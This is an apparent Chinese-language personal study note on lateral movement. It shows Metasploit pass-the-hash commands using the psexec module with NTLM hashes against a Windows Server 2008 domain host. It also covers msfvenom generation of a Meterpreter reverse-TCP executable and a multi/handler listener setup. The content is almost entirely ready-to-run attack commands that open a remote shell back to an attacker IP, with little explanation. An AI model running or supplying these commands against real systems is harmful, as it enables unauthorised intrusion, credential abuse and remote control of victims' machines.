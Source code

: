 首先通过 cs获得的

![image-20240107154948501](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240107154948501.png)

```java
set smbpass 00000000000000000000000000000000:2ccad3c60ca0adabf81dcf617017ed82
```

2、获得 NTLM Hash：b0093b0887bf1b515a90cf123bce7fba，在 Metasploit 中，经常使用于哈希传递攻击的模块有：

```java
auxiliary/admin/smb/psexec_command   //在目标机器上执行系统命令
exploit/windows/smb/psexec           //用psexec执行系统命令
exploit/windows/smb/psexec_psh       //使用powershell作为payload
```

3、以exploit/windows/smb/psexec模块哈希传递攻击 Windows Server 2008 为例：

```java
use exploit/windows/smb/psexec
set rhosts 192.168.52.138
set smbuser administrator
set smbpass 00000000000000000000000000000000:b0093b0887bf1b515a90cf123bce7fba
set smbdomain god
run
```

![image-20240107160239321](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240107160239321.png)

这里很蒙？先学习去了润了（2024.1.7）













## msf生成控制服务器的方式

前提环境：被远控的机器(受害者)，msf所在域(攻击者)必须是相通 ping可以通

```java
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.236.130  LPORT=4444 -f exe > shell.exe
//这里的ip和端口是（攻击者的ip和监听的端口）
windows/meterpreter/reverse
windows/meterpreter/reverse_http, windows/meterpreter/reverse_https  
linux/x86/meterpreter/reverse_tcp  //32位
linux/x86/shell_reverse_tcp      //64位
```

```java
kali 命令窗口通过：msfconsole
    
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.236.130 //这些和上面是对应的
set lport 4444
exploit  //这里其实就是监听端口
```

